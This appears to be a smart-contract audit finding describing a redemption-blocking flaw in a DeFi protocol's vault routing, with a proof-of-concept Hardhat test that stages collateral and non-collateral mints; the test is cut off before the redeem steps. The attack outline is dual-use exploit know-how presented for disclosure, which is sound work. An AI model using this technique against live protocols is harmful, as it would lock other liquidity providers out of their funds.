 ```javascript
        // get related vault
        if (DepositFrom.MANUAL == params.from || DepositFrom.MINT_COLLATERAL == params.from) {
            targetAddress = vault.getPortfolioVaultAddress();
        } else if (DepositFrom.ORDER == params.from) {
            targetAddress = vault.getTradeVaultAddress();
        } else if (DepositFrom.MINT == params.from) {
            targetAddress = vault.getLpVaultAddress();
        }
```
The vulnerability is that when LP holders try to redeem tokens, all redeem tokens will come from LP Vault. This could lead to redeem reverted because there may not be enough balance.

The hacker can deposit via `isCollateral` = true to transfer tokens to portfolio vault and increase LP pool's share amount. And then the hacker can redeem tokens from LP pool. This will cause other normal LP holders cannot redeem tokens.  Even if there is no hacker, the system may meet this case in normal scenairo.

### Poc
Add this test case into mintStakeToken.test.ts, user0 stake with `isCollateral` = true, and then user1 stakes with `isCollateral` = false. Then user1 redeems tokens, and after that, user0 cannot redeem his tokens. 
```javascript
  it.only('Case3.1: Stake with mint_collateral', async function () {
    const stakeToken = await ethers.getContractAt('StakeToken', xEth)
    const preWEthTokenBalance = BigInt(await weth.balanceOf(user0.address))
    const preEthTokenBalance = BigInt(await ethers.provider.getBalance(user0.address))
    const preWEthVaultBalance = BigInt(await weth.balanceOf(lpVaultAddr))
    const preEthVaultBalance = BigInt(await ethers.provider.getBalance(wethAddr))
    const preWEthMarketBalance = BigInt(await weth.balanceOf(xEth))

    const preStakeTokenBalance = BigInt(await stakeToken.balanceOf(user0.address))

    const tokenPrice = precision.price(1800)
    const oracle = [{ token: wethAddr, minPrice: tokenPrice, maxPrice: tokenPrice }]

    const executionFee = precision.token(2, 15)
    // user0 mint
    await handleMint(fixture, {
      requestToken: weth,
      requestTokenAmount: precision.token(300),
      oracle: oracle,
      account: user0,
      isNativeToken: false,
      isCollateral: true,
      executionFee: executionFee,
    })
    //console.log(weth.balanceOf(stakeToken))
    let stakeWethBalance = BigInt(await weth.balanceOf(stakeToken))
    let portfolioVaultWethBalance = BigInt(await weth.balanceOf(portfolioVaultAddr))
    console.log(stakeWethBalance)
    console.log(portfolioVaultWethBalance)
    // user1 mint
    await handleMint(fixture, {
      requestToken: weth,
      requestTokenAmount: precision.token(300),
      oracle: oracle,
      account: user1,
      isNativeToken: false,
      isCollateral: false,
      executionFee: executionFee,
    })
    stakeWethBalance = BigInt(await weth.balanceOf(stakeToken))
    // Dump information
```